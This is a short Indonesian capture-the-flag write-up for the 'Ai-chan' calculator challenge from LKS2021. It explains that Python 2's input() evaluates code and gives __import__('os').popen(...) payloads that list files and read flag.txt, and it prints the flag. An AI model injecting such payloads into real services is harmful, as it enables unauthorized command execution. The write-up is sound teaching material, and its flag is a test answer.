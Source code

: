 ## Judul Soal
Ai-chan

## Deskripsi Soal

> Pusing berhitung? tenang saja Ai-chan akan membantumu

---
## Penjelasan Penyelesaian Soal

> rce pada input python 2
> input pada python 2 dapat mengevaluasi kode python
> masukkan payload untuk menjalankan RCE
> kita bisa memasukkan `__import__('os')` untuk menggantikan `import os`
> `__import__('os').popen('ls').read()`
> setelah itu akan ada file flag.txt
> `__import__('os').popen('cat flag.txt').read()`

## Flag
LKS2021{thanks_for_calling_me_back}